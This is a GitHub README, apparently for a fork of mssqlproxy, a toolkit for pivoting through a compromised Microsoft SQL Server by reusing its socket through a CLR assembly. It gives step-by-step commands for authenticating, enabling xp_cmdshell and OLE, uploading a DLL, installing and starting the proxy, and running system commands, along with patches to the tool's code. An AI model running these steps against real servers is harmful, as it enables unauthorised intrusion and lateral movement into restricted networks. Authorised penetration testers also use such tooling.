 # mssqlproxy

**mssqlproxy** is a toolkit aimed to perform lateral movement in restricted environments through a compromised Microsoft SQL Server via socket reuse. The client requires [impacket](https://github.com/SecureAuthCorp/impacket) and **sysadmin** privileges on the SQL server.


Please read [this article](https://www.blackarrow.net/mssqlproxy-pivoting-clr/) carefully before continuing.

```
proxy mode:
  -reciclador path      Remote path where DLL is stored in server
  -install              Installs CLR assembly
  -uninstall            Uninstalls CLR assembly
  -check                Checks if CLR is ready
  -start                Starts proxy
  -local-port port      Local port to listen on
  -clr local_path       Local CLR path
  -no-check-src-port    Use this option when connection is not direct (e.g. proxy)
```

We have also implemented two commands (within the SQL shell) for downloading and uploading files. Relating to the proxy stuff, we have four commands:

* **install**: Creates the CLR assembly and links it to a stored procedure. You need to provide the `-clr` param to read the generated CLR from a local DLL file.
* **uninstall**: Removes what **install** created.
* **check**: Checks if everything is ready to start the proxy. Requires to provide the server DLL location (`-reciclador`), which can be uploaded using the **upload** command.
* **start**: Starts the proxy. If `-local-port` is not specified, it will listen on port 1337/tcp.
[![asciicast](https://asciinema.org/a/298949.svg)](https://asciinema.org/a/298949)

**Note #1:** if using a non-direct connection (e.g. proxies in between), the `-no-check-src-port` flag is needed, so the server only checks the source address.

**Note #2:** at the moment, only IPv4 targets are supported (nor DNS neither IPv6 addresses).

**Note #3:** use carefully! by now the MSSQL service will crash if you try to establish multiple concurrent connections

**Important:** It's important to stop the mssqlproxy by pressing Ctrl+C on the client. If not, the server may crash and you will have to restart the MSSQL service manually.

Example
------------

Prepare
```bash
python3 mssqlclient.py $username:$password@$ip_mssql
SQL> enable_xp_cmdshell
SQL> enable_ole
SQL> upload reciclador.dll c:\programdata\reciclador.dll
SQL> exit
```

Proxy
```bash
python3 mssqlclient.py $username:$password@$ip_mssql -install -clr Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py $username:$password@$ip_mssql -check -reciclador 'c:\programdata\reciclador.dll'
python3 mssqlclient.py $username:$password@$ip_mssql -start -reciclador 'c:\programdata\reciclador.dll'
```

xp_cmdshell
```bash
SQL> xp_cmdshell whoami /all
```
download file
```
download c:\xx.zip xx.zip
```
Base
------------
https://github.com/iptL-F4ck/mssqlproxy/


Change
------------
217 line of mssqlclient.py
```
SET @ip=TRIM(CONVERT(char(15), CONNECTIONPROPERTY('client_net_address')));
change to
SET @ip=LTRIM(RTRIM(CONVERT(char(15), CONNECTIONPROPERTY('client_net_address'))));
```
103 line of reciclador.cpp
```
return 1;
change to
return -1;
```

Why modify
------------
mssqlclient.py：在mssql2017之后才新增的TRIM函数，绕过mssql小于2017则会报错，仅在mssql2014测试。
![image](https://user-images.githubusercontent.com/102639729/224523965-8e22b17f-00ac-4446-9782-f8042c5453ac.png)

reciclador.cpp：如果python脚本意外退出，该dll会陷入死循环从而导致CPU占用100%。
![image](https://user-images.githubusercontent.com/102639729/224523979-ec109327-d721-415f-9a7c-61e5e62e38d0.png)




License
-------

All the code included in this project is licensed under the terms of the GPL license. The mssqlclient.py is based on [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py).
